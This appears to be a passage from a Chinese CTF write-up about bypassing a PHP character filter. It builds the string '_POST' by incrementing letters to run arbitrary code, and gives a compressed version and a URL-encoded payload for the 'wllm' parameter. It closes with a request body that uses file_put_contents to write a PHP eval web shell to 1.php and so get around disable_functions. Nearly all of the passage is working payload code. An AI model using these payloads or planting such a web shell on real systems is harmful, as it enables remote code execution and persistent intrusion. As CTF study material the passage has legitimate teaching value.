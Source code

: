 ```php
$__ = $_;   //$__="A"
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;   //得到"O"，此时$__="O"
$____ .= $__;   //$____="_PO"
$__++;$__++;$__++;$__++;   //得到"S"，此时$__="S"
$____ .= $__;   //$____="_POS"
$__++;   //得到"T"，此时$__="T"
$____ .= $__;   //$____="_POST"
$_ = $$____;   //$_=$_POST
$___($_[_]);
```

这里放一个压缩版（

```php
<?php
$_=[].'';$___=$_[$__];$__=$___;$_=$___;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__;$__++;$___.=$__;$__++;$__++;$___.=$__;$__=$_;$____="_";$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__++;$__++;$__++;$__++;$____.=$__;$__++;$____.=$__;$_=$$____;$___($_[_]);
```

将以上内容进行一次 Urlencode 编码得到以下内容，将其作为 Payload 。

```
wllm=%24%5F%3D%5B%5D%2E%27%27%3B%24%5F%5F%5F%3D%24%5F%5B%24%5F%5F%5D%3B%24%5F%5F%3D%24%5F%5F%5F%3B%24%5F%3D%24%5F%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%5F%5F%3D%22%5F%22%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%3D%24%24%5F%5F%5F%5F%3B%24%5F%5F%5F%28%24%5F%5B%5F%5D%29%3B
```

但是发现并没有用，通过百度看发现还需要利用 `file_put_contents()` 函数来绕过 disable\_function。

所以需要构造 Payload 如下（body 部分）

```
_=file_put_contents('1.php','<?php eval($_POST[1]); ?>');
```
